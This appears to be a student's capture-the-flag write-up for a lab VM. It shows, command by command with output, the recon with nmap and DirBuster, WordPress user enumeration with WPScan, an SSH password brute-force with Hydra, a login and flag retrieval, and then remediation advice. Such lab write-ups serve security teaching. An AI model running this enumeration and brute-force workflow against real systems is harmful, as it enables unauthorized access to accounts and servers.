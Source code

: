 # Project-3

# Contents
### Exposed Services
### Exploitation
### Vulnerabilty Summary

**nmap -A -v -T4 -Pn 192.168.1.110** was run to give the following results.

![nmapscanp3](https://user-images.githubusercontent.com/84904417/128713951-338c8f11-330f-4e93-94ea-19239ca6e180.png)
![nmapscan2p3](https://user-images.githubusercontent.com/84904417/128713989-a6b44a71-90e4-4953-8f5e-4a6141242a95.png)
![nmapscan3p3](https://user-images.githubusercontent.com/84904417/128714022-6ed4ce7b-8389-40b6-8ca8-7dac0dde6b7d.png)

# Exploitation - Flag 1
flag1{b9bbcb33e11b80be759c4e844862482d}

We used Dirbuster to find the /services.html page, the flag was found in the page cource code.

```
root@Kali:~# dirbuster 
Pickedup_JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
Aug 03, 2021 2:49:55 AM java.util.prefs.FileSystemPreferences$1 run
INFO: Created user preferences directory.
Starting OWASP DirBuster 1.0-RC1
Starting dir/file list based brute forcing
File found: /.hta.php - 403
File found: /.htaccess.php - 403
File found: /.htpasswd.php - 403
Dir found: / - 200
Dir found: /.hta/ - 403
Dir found: /.htaccess/ - 403
Dir found: /.htpasswd/ - 403
File found: /index.html - 200
File found: /about.html - 200
File found: /service.html - 200
```

# Exploitation - Flag 2
flag2{fc3fd58dcdad9ab23faca6e9a36e581c

Finding the first flag allowed us to discover that wordpress was hosted. This then lead us to exploit the application to find flag 2.

```
[32m[+] [0m URL: http://192.168.1.110/wordpress/
 [32m[+] [0m Started: Mon Aug  2 03:40:57 2021

Interesting Finding(s):

 [32m[+] [0m http://192.168.1.110/wordpress/
 | Interesting Entry: Server: Apache/2.4.10 (Debian)
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

 [32m[+] [0m http://192.168.1.110/wordpress/xmlrpc.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access

 [32m[+] [0m http://192.168.1.110/wordpress/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

 [32m[+] [0m http://192.168.1.110/wordpress/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299

 [32m[+] [0m WordPress version 4.8.7 identified (Insecure, released on 2018-07-05).
 | Found By: Emoji Settings (Passive Detection)
 |  - http://192.168.1.110/wordpress/, Match: 'wp-includes\/js\/wp-emoji-release.min.js?ver=4.8.7'
 | Confirmed By: Meta Generator (Passive Detection)
 |  - http://192.168.1.110/wordpress/, Match: 'WordPress 4.8.7'

 [34m[i] [0m The main theme could not be detected.


 [34m[i] [0m User(s) Identified:

 [32m[+] [0m steven
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

 [32m[+] [0m michael
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

 [33m[!] [0m No WPVulnDB API Token given, as a result vulnerability data has not been output.
 [33m[!] [0m You can get a free API token with 50 daily requests by registering at https://wpvulndb.com/users/sign_up

 [32m[+] [0m Finished: Mon Aug  2 03:40:59 2021
 [32m[+] [0m Requests Done: 17
 [32m[+] [0m Cached Requests: 35
 [32m[+] [0m Data Sent: 3.757 KB
 [32m[+] [0m Data Received: 12.015 KB
 [32m[+] [0m Memory used: 119.039 MB
 [32m[+] [0m Elapsed time: 00:00:01
wpscan.txt
Displaying wpscan.txt.
```

**Steven** and **Michael** were identified as two usernames on the server. Hydra was then used to brute force Michaels password.

```
root@Kali:~# hydra -l michael -P michaelwordlist.txt 192.168.1.110 -t 4 ssh -V
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-08-06 21:53:32
[DATA] max 3 tasks per 1 server, overall 3 tasks, 3 login tries (l:1/p:3), ~1 try per task
[DATA] attacking ssh://192.168.1.110:22/
[ATTEMPT] target 192.168.1.110 - login "michael" - pass "MICHAEL" - 1 of 3 [child 0] (0/0)
[ATTEMPT] target 192.168.1.110 - login "michael" - pass "michael" - 2 of 3 [child 1] (0/0)
[ATTEMPT] target 192.168.1.110 - login "michael" - pass "Michael" - 3 of 3 [child 2] (0/0)
[22][ssh] host: 192.168.1.110   login: michael   password: michael
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-08-06 21:53:35
```

Michaels password was his own name. On finding the pair we used his credentials to ssh into the server.

```
root@Kali:~# ssh michael@192.168.1.110
michael@192.168.1.110's password: 

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
You have mail.
Last login: Tue Aug  3 16:38:01 2021 from 192.168.1.90
michael@target1:~$ 
```

The **find** command was then used to locate flag 2.

```
michael@target1:~$ find / -type f -name flag2.txt -print 2>/dev/null
/var/www/flag2.txt
michael@target1:~$ cat /var/www/flag2.txt 
flag2{fc3fd58dcdad9ab23faca6e9a36e581c}
```

## Vulnerabilities

There are many vulneribilties present on the target 1 VM. The ones exploited here relate to weak passwords and insecure appications. To be secure passwords must be complex, ideally a combination of letters, numbers and symbols. Changing them regularly is also recommended. This breach may have been stopped in the early stages had Michael's password been complex as brute force would have been unlikely to return a match. Wordpress was vulnerable to exploitation here because it wasn't updated, which is another essential security task.  
